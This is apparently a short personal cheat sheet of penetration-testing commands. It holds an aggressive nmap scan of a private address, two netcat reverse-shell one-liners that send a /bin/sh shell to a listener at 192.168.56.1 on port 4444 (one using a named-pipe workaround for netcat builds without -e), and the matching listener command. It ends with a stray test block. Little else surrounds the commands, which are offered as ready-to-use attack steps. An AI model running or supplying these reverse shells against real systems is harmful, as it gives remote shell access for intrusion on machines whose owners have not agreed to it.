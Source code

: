 # Useful command

## Scan

```
nmap -A -Pn -n --top-ports 10000 -vvv -oN 192.168.27.68
```


## Get Shell & Listen:

### get shell

```
nc 192.168.56.1 4444 -e /bin/sh
```

the -e flag was not supported on the server’s implementation of netcat.:

```
mknod /tmp/backpipe p 
/bin/sh 0</tmp/backpipe | nc 192.168.56.1 4444 1>/tmp/backpipe
```

### listen:
```
nc -nvlp 4444
```

´´´
test
´´´
